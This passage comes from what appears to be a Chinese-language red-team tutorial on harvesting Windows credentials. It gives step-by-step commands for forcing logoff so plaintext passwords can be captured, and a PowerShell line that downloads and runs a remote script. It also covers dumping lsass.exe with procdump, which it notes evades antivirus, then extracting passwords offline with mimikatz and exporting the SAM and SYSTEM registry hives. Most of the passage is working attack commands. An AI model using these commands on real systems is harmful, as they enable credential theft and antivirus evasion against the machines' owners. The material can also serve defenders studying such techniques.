 > ```

**绕过方法：手动开启Wdigest Auth，强制锁屏或注销，让管理用重新登录，把明文密码储存在内存中**

+ 强制锁屏/注销(一般都需要注销)

  ```shell
  #cmd
  rundll32 user32.dll,LockWorkStation
  #powershell
  powershell -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/kiraly15/Lock-WorkStation/master/Lock-WorkStation.ps1');"
  #cmd注销当前用户
  1.logoff
  2.shutdown.exe /l /f 		#静默注销，但是需要管理员权限
  ```

等待管理员用户重新登录，再进行常规的密码抓取，就能够抓到明文密码了

#### Mimikatz离线抓取

算是一些小方法，用来绕过杀软或是检查的

+ 通过procdump上去将lsass.exe进程dump下来抓取

  并且由于这个工具具有微软官方的签名，可以很好的绕过杀软

  ```shell
  procdump64.exe -accepteula -ma lsass.exe lsass.dmp
  #-ma写入完整的转储文件
  #-accepteula自动接受用户许可协议(静默)
  ```

+ 将保存的转储文件保存到mimikatz.exe同一目录下

  ```shell
  mimikatz.exe
  privilege::debug
  sekurlsa::minidump lsass.dmp
  sekurlsa::logonpasswords full
  ```

  成功离线抓取密码

  ![mimikatzdumpproc](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long-long/mimikatzdumpproc.png)

+ 离线读取SAM数据库

  通过导出sam和system注册表来达成目的

  ```shell
  #导出注册表
  reg save HKLM\SYSTEM SystemBkup.hiv
  reg save HKLM\SAM SamBkup.hiv
  ```
  
  复制文件
  
  ```shell
  C:\Windows\System32\config\SYSTEM
  C:\Windows\System32\config\SAM
  ```
  
